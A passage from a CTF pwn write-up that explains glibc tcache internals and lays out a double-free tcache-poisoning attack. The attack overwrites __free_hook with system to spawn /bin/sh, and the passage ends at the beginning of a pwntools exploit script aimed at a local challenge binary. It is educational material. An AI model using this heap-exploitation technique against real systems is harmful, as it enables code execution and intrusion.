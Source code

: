 Each bin has a `tcache_perthread_struct` struct, while each entry has a `tcache_entry` struct. When a memory chunk of a certain size is freed (if the bin has not exceeded `TCACHE_MAX_BINS` which default is 7) then it is put at the front of the linked list of chunks as a `tcache_entry`, with it's pointer set equal to the previous linked list head (FILO structue). Here is the code to add / remove entries from a tcache bin to make it a bit more clear:

```
tcache_put (mchunkptr chunk, size_t tc_idx)
{
  tcache_entry *e = (tcache_entry *) chunk2mem (chunk);
  assert (tc_idx < TCACHE_MAX_BINS);
  e->next = tcache->entries[tc_idx];
  tcache->entries[tc_idx] = e;
  ++(tcache->counts[tc_idx]);
}

tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  assert (tc_idx < TCACHE_MAX_BINS);
  assert (tcache->entries[tc_idx] > 0);
  tcache->entries[tc_idx] = e->next;
  --(tcache->counts[tc_idx]);
  return (void *) e;
}
```

So we can see that the entires only point to the next entry in the list. We will use this and the lack of checks it does for corruption to our advantage. We will use the double free bug to free a chunk twice. This will cause there two entries in the tcache bin for a single memory chunk. Then we will allocate one of those two chunks, which will allow us to write to a chunk that is in the tcache list (since they both point to the same chunk). We will write to it the address of the free hook, which will overwrite the `tcache_entry->next` pointer to the address of `__free_hook`. Then we will allocate that chunk, which will set the next chunk to be allocated to be pointing at the free hook (luckily for us this is taken care of by the fact that whenever we add an object, two different chunks are allocated). Then the next chunk we allocate will be pointing at the free hook, which we can just write the address of `system` to the free hook. Then we will just need to create a chunk with the `buf` value `/bin/sh` and we will have our shell.

Also one more thing I will say about this, due to how I did the infoleak the tcache bin is already pretty full. So I allocated five new objects to clear everything out, then did the double free and proceeded with the tcache poisoning / free hook overwrite.

### Exploit

Putting it all together, we get the following exploit:

```
# This exploit is based off of: https://github.com/EmpireCTF/empirectf/blob/master/writeups/2019-04-12-PlaidCTF/README.md#150-pwnable--cppp

from pwn import *

target = process('./cpp', env={"LD_PRELOAD":"./libc-2.27.so"})

gdb.attach(target)
#gdb.attach(target, gdbscript = 'pie b *0x167e')
#gdb.attach(target, gdbscript = 'pie b *0x1475')

libc = ELF("./libc-2.27.so")

# Establish functions to handle I/O with target
def add(name, buff):
    print target.recvuntil("Exit\n")
    target.sendline("1")
    target.sendline(name)
```